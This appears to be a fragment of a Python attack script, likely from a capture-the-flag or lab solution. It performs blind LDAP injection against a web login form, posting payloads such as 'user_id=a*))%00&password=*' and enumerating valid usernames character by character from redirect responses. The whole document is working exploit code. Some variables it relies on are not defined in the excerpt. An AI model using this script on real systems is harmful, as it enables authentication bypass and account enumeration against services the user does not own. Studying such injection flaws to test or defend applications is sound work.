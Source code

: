 ```python
p2 = log.progress("Users")

def getInitialUsers(): 
    
    users = []

    p1.status("Initializing brute force process")
    time.sleep(5)

    for character in characters: 
        payload = "user_id={}*))%00&password=*&login=1&submit=Submit".format(character)
        p1.status("Sending payload: {}".format(payload))
        r = requests.post(url, headers=headers, data=payload, allow_redirects=False) #proxies=burp_proxy
        if r.status_code == 301: 
            users.append(character)

    return users


def getUser(letter): 

    user = letter 

    for i in range(1,10):
        for character in characters:
            payload = "user_id={}{}*))%00&password=*&login=1&submit=Submit".format(user,character)
            p1.status("Sending payload: {}".format(payload))
            p2.status(user)
            r = requests.post(url, headers=headers, data=payload, allow_redirects=False)
            if r.status_code == 301: 
                user+=character

    return user 


if __name__ == "__main__": 
    initialUsers = getInitialUsers()
    users = []
    for initial in initialUsers:
        users.append(getUser(initial))
        
    print("""\n\n============== Users finded =================  
(!) {}\n\n""".format(users))
```

